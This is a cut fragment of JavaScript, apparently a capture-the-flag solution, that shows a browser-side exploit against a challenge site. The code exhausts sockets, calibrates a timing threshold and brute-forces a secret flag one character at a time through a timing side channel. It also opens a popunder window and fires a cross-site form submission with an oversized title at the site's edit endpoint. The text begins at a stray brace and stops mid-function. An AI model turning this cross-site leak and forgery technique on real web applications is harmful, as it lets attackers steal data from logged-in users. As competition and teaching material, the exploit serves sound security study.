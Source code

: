 ```html
}

const exploit = async(flag = '') => {
console.log('Starting')
// dont go to fast plz :)
console.log(`waiting 3s`)
await sleep(3000)
// exaust sockets
await exhaust_sockets()
await sleep(2000)
LOG = `Calibrating`
TIMELIMIT = await calibrate()
LOG = `TIMELIMIT:${TIMELIMIT}`
console.log(`timelimit:${TIMELIMIT}`)
await sleep(2000)
let last;
while (true) {
last = await brute(flag);
if (last === false) {
return flag;
}
else {
flag += last;
output.innerText = flag;
if(last === '}'){
return flag
}
}
}
}

const popunder = () => {
if (window.opener) {
WINBG = window.opener
}
else {
WINBG = window.open(location.href, target="_blank")
location = `about:blank`
}
}

const csrf = async () => {
x.action = `https://carrot-${INSTANCE}.mc.ax/edit/0`
x.title.value = "A".repeat(1000000)
x.submit()
}

window.onload = () => {
let p = new URL(location).searchParams;
if(!p.has('i')){
console.log(`no INSTANCE`)
return
}
INSTANCE = p.get('i')
// step 1
if(p.has('csrf')){
csrf()
return
}
// step 2
if (p.has('exploit')) {
// window open is ok in headless :)
popunder()
```